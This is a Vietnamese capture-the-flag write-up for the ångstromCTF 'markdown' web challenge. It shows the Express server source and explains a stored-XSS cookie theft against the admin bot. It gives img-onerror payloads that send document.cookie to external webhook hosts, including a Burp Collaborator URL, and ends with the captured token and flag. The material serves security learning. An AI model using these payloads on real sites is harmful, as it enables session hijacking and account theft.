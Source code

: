 # Markdown 

## description 

+ đây là dạng xss cookie stealing đã có 1 bài tương tự là static-pastebin của redpwn 


![image](https://github.com/j10nelop/m3d1r/assets/152776722/65cc1577-f544-4eec-ba72-496632b65821)


- ta có 2 link :

   https://markdown.web.actf.co/ => là để chèn content vào

   https://admin-bot.actf.co/markdown => là để share trên link này từ content đã được chèn

+ ta có thông tin về code index.js

```
const crypto = require('crypto')

const express = require('express')
const app = express()

const posts = new Map()

app.use(express.urlencoded({ extended: false }))

app.get('/', (_req, res) => {
    const placeholder = [
        '# Note title',
        'Content of the note. You can use *italics*!',
    ].join('\n')

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>Pastebin</h1>
            <form action="/create" method="POST">
                <textarea name="content">${placeholder}</textarea>
                <button type="submit">Create</button>
            </form>
        </div>
    `)
})

app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})

app.get('/view/:id', (_req, res) => {
    const marked = (
        'https://cdnjs.cloudflare.com/ajax/libs/marked/4.2.2/marked.min.js'
    )

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
        </div>
        <script src="${marked}"></script>
        <script>
            const content = document.querySelector('.content')
            const id = document.location.pathname.split('/').pop()

            delete (async () => {
                const response = await fetch(\`/content/\${id}\`)
                const text = await response.text()
                content.innerHTML = marked.parse(text)
            })()
        </script>
    `)
})

app.post('/create', (req, res) => {
    const data = req.body.content ?? ''
    const id = crypto.randomBytes(8).toString('hex')
    posts.set(id, data)
    res.redirect(`/view/${id}`)
})

app.get('/content/:id', (req, res) => {
    const id = req.params.id
    const data = posts.get(id) ?? ''
    res.type('text/plain').end(data)
})

app.get('/style.css', (_req, res) => {
    res.type('text/css').end(`
        * {
          font-family: system-ui, -apple-system, BlinkMacSystemFont,
            'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;
          box-sizing: border-box;
        }

        html,
        body {
          margin: 0;
        }

        .content {
          padding: 2rem;
          width: 90%;
          max-width: 900px;
          margin: auto;
        }

        input:not([type='submit']) {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
        }

        textarea {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
          resize: vertical;
          font-family: monospace;
        }

        input[type='submit'] {
          margin-bottom: 16px;
        }


    `)
})

app.listen(3000)
```

+ ta tìm được thông tin để lấy được flag ta sẽ phải tỉm ra session token code nếu không thì sẽ in ra no flag

+ ta sẽ dùng payload xss stealing token bằng cách sử dụng 1 web để hooked data từ server  

Webhook

```
https://pipedream.com
https://webhook.site/
brupsuite.pro collaborator
```

payload webhook steal cookie

```
><img src=x onerror='fetch("<Request_url>/?q="+document.cookie);'>

<img src="x" onerror="fetch('https://eobebcvkp2ou15v.m.pipedream.net/?q=' +(document.cookie));">
```

## exploit 

+ ta sử dụng brup collaborator và payload


payload solve
```
<img src="x" onerror="fetch('https://mf507brz66qf4sksfh4a5lgi79d01p.oastify.com/?q=' +(document.cookie));">
```

![image](https://github.com/j10nelop/m3d1r/assets/152776722/04f95e41-29a1-43e1-8878-d36995254f34)

=> poll request từ admin bot 'token = d15453b0234690ccbb91861e'

add token in cookie editor in https://markdown.web.actf.co/flag

![image](https://github.com/j10nelop/m3d1r/assets/152776722/3f56aba3-4d8c-4ece-8cad-1548026c38ad)

=> flag:actf{b534186fa8b28780b1fcd1e95e2a2e2c}
